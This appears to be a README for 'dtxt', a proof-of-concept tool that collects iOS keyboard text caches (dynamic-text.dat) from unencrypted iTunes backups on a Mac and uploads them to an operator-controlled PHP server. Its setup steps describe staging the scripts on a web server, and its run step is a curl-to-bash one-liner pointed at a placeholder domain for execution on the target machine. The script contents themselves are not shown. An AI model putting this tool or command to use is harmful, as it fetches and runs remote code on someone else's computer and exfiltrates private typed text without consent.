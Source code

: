 dtxt
====

iOS stores text in /private/var/mobile/Library/Keyboard/dynamic-text.dat. If a user backs up their device with iTunes, without encryption, then the text is availible in plain text.

dtxt is a proof of concept that attempts to grab all dynamic-text.dat data for all iOS device that have been backed up with iTunes on any given Mac.

Setup:
1. Put d.txt, d.py, and index.php on a web server that supports PHP.
2. In d.txt edit the value of r_path variable.
3. In index.php edit the target_path variable - set it to a directory that the web server can write to.

Run:
To execute the dtxt run the following command on the target system:
curl -s http://&lt;domain.com&gt;/dtxt/d.txt | bash 

